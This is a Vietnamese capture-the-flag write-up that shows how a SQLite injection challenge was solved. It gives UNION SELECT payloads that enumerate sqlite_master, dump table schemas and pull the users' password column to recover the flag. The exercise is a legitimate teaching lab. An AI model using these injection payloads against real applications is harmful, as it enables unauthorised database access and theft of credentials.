


# UNION - Meet the Union Committee
# TEAM : DUY - ζp33d_0∫\_Ψ1m3
# TYPE : SQLITE INJECTION

Giao diện trang web 


Click vào hình bất kỳ, http://34.105.202.19:1336/?id=2
- Thử với id = 2'


Với dòng error cursor.execute("SELECT id, name, email FROM users WHERE id=" + params!["id"])
giúp ta xác định đoạn sql này lấy ra dữ liệu từ columns id,name,email từ table users qua id


- Thử với id=2 or true

OK, dữ liệu lấy ra ở cột name sẽ được fetch ra hết trong khi cột id,email không xuất hiện

Lợi dụng điều này ta có thể fetch dữ liệu trong table qua cột select thứ 2
```id = 2 union select null,email,null from users```


Tuy nhiên không có dữ liệu chúng ta cần tìm vì vậy cần select ra những tên cột có trong bảng


```2 union SELECT null,group_concat(name),null FROM sqlite_master WHERE type = "table"```

sqlite_master là "schema table" chứa schema của SQLite database, thông thường sẽ có cấu trúc thế này

```
CREATE TABLE sqlite_schema(
  type text,
  name text,
  tbl_name text,
  rootpage integer,
  sql text
);
```

Với câu query trên chúng ta dump ra được trường name của tất cả table có trong database 


OK, vậy ta có được 3 table là users,sqlite_sequence,comments

Để xem cấu trúc của 3 table này ta query như sau (đổi trường name thành trường sql):

```2 union SELECT null,group_concat(sql),null FROM sqlite_master WHERE type = "table"```


Sau khi biết được các cột trong từng table mình thấy nghi ngờ về trường password nên dump ra xem thử :v

```id = 2 union select null,password,null from users```



Ta-da, flag : union{uni0n_4ll_s3l3ct_n0t_4_n00b}

